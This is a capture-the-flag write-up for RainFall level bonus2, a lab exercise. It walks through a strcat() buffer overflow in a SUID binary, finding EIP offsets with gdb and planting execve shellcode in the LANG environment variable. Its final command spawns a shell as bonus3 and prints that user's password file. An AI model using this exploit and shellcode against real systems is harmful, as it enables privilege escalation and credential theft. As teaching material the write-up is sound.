 # Level bonus 2

## Vulnerability

strcat() heap overflow, return-to-libc

## Context

We find a binary with owner ```bonus3``` and SUID.
```
bonus2@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```
When run with 0 or 1 arguments, it does nothing. Run with 2 arguments it prints "Hello " + first argument.
```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 wait
bonus2@RainFall:~$ ./bonus2 wait what?
Hello wait
```

## Solution

In summary, the program expects to be given a username, then prints "Hello <username>".

Investigating with gdb we find ```main()``` initializes a 72 byte buffer, copies 40 bytes from argv[1], then 32 bytes from argv[2]. It then checks the language env variable, setting global variable ```lang```: English (default) = 0, Finnish = 1, Dutch = 2.

```main``` then calls function ```greetuser()``` which copies "Hello " (in the appropriate language) into a 64 byte buffer, then concatenates the given username string. Finally ```puts``` prints the buffer "Hello <username>".

It looks like when using ```strcat()``` to concaternate the 72 byte ```main()``` buffer to the 64 byte ```greetuser()``` buffer, it could overflow. Lets try to break it.
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

### Find EIP offset

Great, lets see if we can overwrite the EIP. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find our overflow does not reach the EIP.
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
Perhaps if we change language, so have a longer greeting message, our overflow will reach the EIP. In Finnish we find our EIP offset is 18.
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ env | grep "LANG"
LANG=fi
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
In Dutch we find our EIP offset is 23.
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

### Store exploit in env

Next: overwrite EIP with what address? Where we should store our malicious code? We export our malicious code into the ```env``` following the ```export LANG=fi``` (Let's be Finnish!).

First a NOP slide ```'\x90' * 100```, then our [malicious shell code which calls system, opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) same as previous levels. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```. 

Putting that together:
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

### Find exploit address

Find the address of NOP slide in the env language variable with gdb. Create a break point at getenv("LANG"), run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) break *main+125
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe79:	 "LANG=fi\220\220...
```
We find our exploit stored after the language var starting at ```0xbffffe79```. We need to add to this address to land somewhere on our NOP slide, lets add 42 giving us the target address ```0xbffffea3```.

### Build overflow string

So, we build our first argument:
1. 40 bytes padding - ```$(python -c 'print "A" * 40')```

And our second argument:
1. 18 bytes padding (23 if Dutch) - ```$(python -c 'print "B" * 18')```
2. address on NOP slide in env language variable - ```\xa3\xfe\xff\xbf```

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
